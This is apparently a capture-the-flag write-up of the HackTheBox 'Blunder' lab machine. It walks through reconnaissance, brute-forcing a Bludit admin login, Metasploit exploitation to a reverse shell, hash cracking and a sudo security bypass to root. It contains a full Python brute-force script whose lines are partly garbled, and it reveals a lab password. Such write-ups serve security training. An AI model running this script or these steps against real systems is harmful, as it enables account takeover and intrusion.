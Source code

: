```yaml
---
date: 2020-10-17 12:26:40
layout: post
title: HackTheBox - Blunder
description: Easy Linux Machine containing Bludit and sudo Security Bypass Privilege Escalation
image: https://miro.medium.com/max/700/0*QbMsDQ0H57VSiLMA
optimized_image: https://miro.medium.com/max/700/0*QbMsDQ0H57VSiLMA
category: HackTheBox
tags:
  - sudo
  - bludit
  - linux
author: anishka
paginate: true
---
```


Hello Guys , I am <a href="https://twitter.com/_kNgF">Faisal Husaini</a>. My username on HTB is <a href="https://www.hackthebox.eu/home/users/profile/7404">anishka</a>. Also join me on discord.

The IP of this box is **10.10.10.191**

## Port Scan

Running nmap full port scan on it , we get

![placeholder](https://miro.medium.com/max/670/1*IBCorClbNwU_02IHegdnVA.png "Large example image")

Since we have only 1 Open Port which is the web, we directly move onto hunting that part

## Web

Checking the IP on the browser

![placeholder](https://miro.medium.com/max/1000/1*PQ_kW1sIMgTRpfO4oWYXTQ.png "Large example image")

We see its a blog page

Running gobuster for directory fuzzing along with 3 extensions of *php, html and txt*

![placeholder](https://miro.medium.com/max/414/1*rinb49_jemGa-csTHe5K7w.png "Large example image")

We get few results , looking onto the ***/admin*** directory

![placeholder](https://miro.medium.com/max/700/1*jDmG1GJ4TSoaMVKIN3vhIg.png "Large example image")

It redirects to a Bludit login page , trying default credentials gave no luck

Looking onto the ***todo.txt*** file

![placeholder](https://miro.medium.com/max/700/1*U2mlniDfgT2wWo3dCVRLfA.png "Large example image")

I has some todo list , on the last one we can see a potential user ***fergus***

Trying to bruteforce the login using ***ffuf*** or ***hydra*** wont give us success as the login page had bruteforce protection using CSRF Tokens for each login, so we can create a python script and use it for bruteforcing where it grabs new tokens each request

Also ***rockyou.txt*** wordlist file doesnt work here, so I just used cewl on the main blog page as this was something which I did before on similar kind of CTF

```
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []list = open("wordlist.txt", "r")

for i in list:
    wordlist.append(i.strip())

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            breaklist.close()
```
Running the following script

![placeholder](https://miro.medium.com/max/532/1*mM7u0zcg7bnYxxiYirw5bA.png "Large example image")

We got the password cracked as ***RolandDeschain***

Trying the creds on the login page

![placeholder](https://miro.medium.com/max/1000/1*kKsKQtCQirz0SYO_CD3SIA.png "Large example image")

We got logged in successfully to the dashboard of ***Bludit***

![placeholder](https://miro.medium.com/max/700/1*kNTpXiNYlyDRhWO08z0Z_g.png "Large example image")

We see an exploit available with **Metasploit** , so we directly spawn msf and get to the exploit and set our options

![placeholder](https://miro.medium.com/max/1000/1*8zNBZR7ZFBSCypk7coh2Wg.png "Large example image")

All set ready for exploiting

![placeholder](https://miro.medium.com/max/1000/1*fr_Z4ZPGP4nkIF2EecrhiQ.png "Large example image")

We got meterpreter , we spawn shell and get a proper reverse shell

![placeholder](https://miro.medium.com/max/700/1*WO6aUDJMYnrTmgVHpsywFA.png "Large example image")

We see that the user flag is on user ***Hugo***’s folder and we cant access the flag with the current user ***www-data***

![placeholder](https://miro.medium.com/max/700/1*_1IeJ991trLZ0mVsBfbmHg.png "Large example image")

Digging into the web directories, we find some databases php files which contains usernames and password hash

![placeholder](https://miro.medium.com/max/700/1*eKmBFqR6SLJ21MSPk-ID6g.png "Large example image")

We got the password hash for user ***Hugo*** which is in **SHA1** format if you just do ***hashid*** on it you would know that

![placeholder](https://miro.medium.com/max/700/1*FN4erihVQKAaJbG96GCO9w.png "Large example image")

We cracked the hash using online decryptor and now we switch the user

![placeholder](https://miro.medium.com/max/700/1*G2qcyM32UyiUBFxYPn_Gug.png "Large example image")

We are now user ***hugo*** and now moving further to get the user flag

![placeholder](https://miro.medium.com/max/700/1*J_GtebnYFuFtNlho6r6VyQ.png "Large example image")

## Privilege Escalation

Running the ***sudo -l*** command

![placeholder](https://miro.medium.com/max/700/0*6Rrq3COSzd7iGJ8k.png "Large example image")

We see a weird sudo configuration here , which means we cant run sudo on **/bin/bash** as root with user hugo which we confirm down below

![placeholder](https://miro.medium.com/max/700/1*LOqrU-cnNpLtuS66RKZgIw.png "Large example image")

After doing google searches about the configuration, I see that there is a bypass for this

![placeholder](https://miro.medium.com/max/542/1*s6lzjmsv3iEerAu5OwrzGw.png "Large example image")

We got root! Now time to get the root flag

![placeholder](https://miro.medium.com/max/700/1*ztl3YlHKPUY2KAUoHx_wEA.png "Large example image")



# References

<a href="https://www.exploit-db.com/exploits/47502">sudo 1.8.27 - Security Bypass</a>


<img src="http://www.hackthebox.eu/badge/image/7404" alt="Hack The Box"> 










